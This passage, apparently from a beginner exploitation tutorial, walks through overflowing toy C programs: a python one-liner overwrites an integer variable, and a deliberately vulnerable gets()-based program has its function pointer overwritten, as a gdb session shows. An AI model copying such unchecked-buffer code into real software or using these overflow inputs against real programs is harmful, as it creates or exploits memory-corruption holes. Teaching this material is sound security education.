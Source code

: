 wohoo overflow happened at 15 bytes.

```
python -c "print('A'*15)" | ./int-overflow
You have changed the value of the variable
```

At 15 bytes buffer overflow occurs.
We 've successfully overwritten the interger variable.

**LETS DIG IN DEEPER**

### Overwriting function pointers

Program:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

void special()
{
    printf("this is the special function\n");
    printf("you did this, friend!\n");
}

void normal()
{
    printf("this is the normal function\n");
}

void other()
{
    printf("why is this here?");
}

int main(int argc, char **argv)
{
    volatile int (*new_ptr) () = normal;
    char buffer[14];
    gets(buffer);
    new_ptr();
}
```

Here need to overwrite the function pointer value.
Lets find the no.of. bytes needed to achieve overflow.

*Again fire up gdb with the compiled file and run*

```
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) Y
Starting program: /home/user1/overflow-2/func-pointer 
AAAAAAAAAAAAAAAAAAAA 

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? () <=======Function pointer overwritten
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) Y
Starting program: /home/user1/overflow-2/func-pointer 
AAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x00000000004005da in main ()
```